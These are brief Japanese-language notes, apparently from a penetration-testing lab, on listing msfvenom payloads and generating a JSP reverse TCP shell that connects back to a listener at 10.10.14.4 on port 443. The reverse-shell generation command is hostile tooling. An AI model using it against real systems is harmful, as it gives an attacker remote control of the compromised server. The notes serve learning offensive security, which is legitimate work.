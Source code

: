 ## ## Payloadを探す
```zsh
msfvenom --list payload # いろいろなペイロードが表示される。
msfvenom --list payload # こんな感じで使用できる。
```

## ## 作成する
```zsh
msfvenom --payload java/jsp_shell_reverse_tcp --format raw --out shell.jsp LHOST=10.10.14.4 LPORT=443
```